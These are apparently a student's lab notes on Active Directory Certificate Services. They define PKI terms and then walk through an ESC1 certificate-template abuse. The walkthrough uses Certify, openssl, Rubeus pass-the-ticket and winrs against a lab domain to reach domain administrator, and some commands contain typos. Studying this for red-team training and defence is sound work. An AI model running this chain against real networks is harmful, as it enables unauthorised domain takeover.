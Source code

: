 - AD CS helps in authenticating users and machines, encrypting and signing documents, filesystem, email and more.
- AD CS is the Server Role that allows you to build a public key infrastructure and provide public key cryptography, digital certificates, and digital signature capabilities for your organization.
- CA - The certification authority that issues certificates. The server with AD CS(DC or another server) is the CA.
- Certificate - Issued to a user or machine and can be used for authentication, encryption, signing etc.
- CSR - Certificate Signing Request made by a client to the CA to request a certificate.
- Certificate Template - Defines settings for a certificate. Contains information like - enrolment permissions, EKUs, expriy etc.
- EKU OIDs - Extended key usages object idenfifers. These dictate the use of a certificate template (client authentication, smart card logon, subCA etc.)

- `Certify.exe cas` : Check CAs
- `Certifiy.exe find` : Find all the templates
- `Certify.exe find /vulnerable` : Find vulnerable templates
- **Certificates can allows users to authenticate to domain**.

- **ESC1**
- If the template has a setting that enrolee can supplies subject.(ENROLEE_SUPPLIES_SUBJECT).
- Certificates work even even the user password was changed.
- `Certify.exe find /enroleeSuppliesSubject`
- `Certify.exe request /ca:<ENTERPRISE_CA> /template:"<TEMPLATE_NAME>" /altname:moneycorp.local\Administrator`: PEM format | /altname is enterprise admin.
- `openssl.exe pkcs12 -in esc1.pem -keyexe -CSP "Microsoft Enhanced Cryptograhic Provider v1.0" -export -out esc1-DA.pfx` (Choose a secret pass)
- `Rubeus.exe asktgt /user:administrator /certificate:esc1-DA.fx /password:<secret_pass> /PTT`
- `winrs -r:dcorp-dc cmd`